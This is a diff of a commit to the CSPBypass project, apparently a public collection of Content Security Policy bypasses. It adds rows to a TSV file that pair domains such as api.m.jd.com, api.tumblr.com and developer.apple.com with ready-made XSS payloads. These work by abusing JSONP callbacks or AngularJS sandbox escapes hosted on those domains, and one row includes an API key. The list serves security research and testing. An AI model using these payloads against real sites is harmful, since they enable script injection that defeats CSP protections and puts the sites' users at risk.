

Before and after one commit to renniepak/CSPBypass, a TSV file: data.tsv, drawn as a sheet; only a part is shown, gaps mark what is left out; the shorter side is filled out with more unchanged rows.

Commit message:
New additions: apple, tumblr, jd

```diff
--- a/data.tsv
+++ b/data.tsv
@@ -9,2 +9,3 @@ api.flickr.com	<script src="https://api.flickr.com/services/feeds/photos_friends
 api.github.com	<script src="https://api.github.com/gist/anything?callback=alert"></script>
+api.m.jd.com	<script src="https://api.m.jd.com/api?appid=x&functionId=x&jsonp=alert(document.domain)//"></script>
 api.map.baidu.com	<script src="https://api.map.baidu.com/api?v=2.0&ak=&s=1&callback=alert(document.domain)"></script>
@@ -13,2 +14,3 @@ api.mixpanel.com	<script src="https://api.mixpanel.com/track/?callback=alert(133
 api.pinterest.com	<script src="https://api.pinterest.com/v1/urls/count.json?callback=alert&url=x"></script>
+api.tumblr.com	<script src="https://api.tumblr.com/v2/blog/zoeappleseed.tumblr.com/posts/photo?tag=seed&offset=0&api_key=msIByDvkVk3gSr360nq2vmTkKIAvW4gNTB2dUYkvIO9NLwyxNy&jsonp=alert"></script>
 api.vk.com	<script src="https://api.vk.com/method/wall.get?callback=alert(1337)"></script>
@@ -21,2 +23,3 @@ bebezoo.1688.com	<script src="https://bebezoo.1688.com/fragment/index.htm?callba
 c.y.qq.com	<script src="https://c.y.qq.com/v8/fcg-bin/v8.fcg?&notice=0&format=jsonp&channel=singer&page=list&jsonpCallback=alert"></script>
+cdn.bootcdn.net	<body ng-app ng-csp><script src="https://cdn.bootcdn.net/ajax/libs/angular.js/1.8.0/angular.min.js"></script><input autofocus ng-focus="$event.composedPath()|orderBy:'[].constructor.from([1],alert)'"></body>
 cdn.jsdelivr.net	<body ng-app ng-csp><script src="https://cdn.jsdelivr.net/npm/angular@1.4.5/angular.min.js"></script><input autofocus ng-focus="$event.composedPath()|orderBy:'[].constructor.from([1],alert)'"></body>
@@ -28,2 +31,4 @@ connect.mail.ru	<script src="https://connect.mail.ru/share_count?url_list=x&call
 d.adroll.com	<script src="https://d.adroll.com/user_attrs?advertisable_eid=5L5IV3X4ZNCUZFMLN5KKOD&jsonp=alert(document.domain)"></script>
+d1xrp9zhb3ks3c.cloudfront.net	<body ng-app ng-csp><script src="https://d1xrp9zhb3ks3c.cloudfront.net/web/changessalon/node_modules/angular/angular.min.js"></script><input autofocus ng-focus="$event.composedPath()|orderBy:'[].constructor.from([1],alert)'"></body>
+developer.apple.com	<body ng-app ng-csp><script src="https://developer.apple.com/search/scripts/vendor/angular-custom.min.js"></script><input autofocus ng-focus="$event.composedPath()|orderBy:'[].constructor.from([1],alert)'"></body>
 elysiumwebsite.s3.amazonaws.com	<body ng-app ng-csp><script src="//elysiumwebsite.s3.amazonaws.com/uploads/blog-media/rockstar/angular.min.js"></script><div ng-app ng-csp><div ng-focus="x=$event;" id=f tabindex=0>foo</div><div ng-repeat="(key, value) in x.view"><div ng-if="key == 'window'">{{ [1].reduce(value.alert, 1); }}</div></div></div></body>
```
